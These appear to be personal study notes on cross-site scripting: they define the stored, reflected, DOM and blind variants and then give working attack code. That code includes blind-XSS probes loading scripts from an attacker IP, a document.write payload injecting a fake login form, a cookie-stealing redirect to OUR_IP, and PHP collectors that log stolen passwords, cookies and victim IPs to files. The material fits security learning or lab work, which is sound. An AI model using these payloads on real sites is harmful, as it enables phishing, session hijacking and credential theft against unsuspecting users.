

## Types:
<span style="color:rgb(255, 0, 0)">stored XSS</span> -> gets saved in the application for example in a comment post and every time a victim visits the comment the javascript gets executed 

<span style="color:rgb(255, 0, 0)">
reflected XSS</span> -> is XSS wich is not persistent but it gets processed by the backend server. Unlike Stored XSS it does not get saved in the web page. 

<span style="color:rgb(255, 0, 0)">DOM XSS</span> -> dom based xss never reaches the backend server. it gets fully executed in the browser. 

<span style="color:rgb(255, 0, 0)">Blind XSS</span> -> with blind xss we do not see / do not have access to the site where the javascript is beeing executed. we can test for it by using this:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

(and referencing a php server of us)

dont forget you might need to use a prefix like ``" '  '> ')  ``for it to work 

--------
# Attacks

Phishing: 

you can use javascript to design a html login page. for example by using: ````
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
but because u cannot handle http information using netcat we create a php server and use a php script to handle the request back and automatically save the credentials on our machine using something like this: 

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

-----------------
Hijacking: 

you can hijack a session cookie by using a remote script and process the request using a php script again. 

we can use a script like this: 

``document.location='http://OUR_IP/index.php?c='+document.cookie;

(dont forget to add the port to the IP)

and handle the request using: 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


again we will need a php server in the same directory as the scripts
we can start one using: 

```shell-session
sudo php -S 0.0.0.0:8000
```


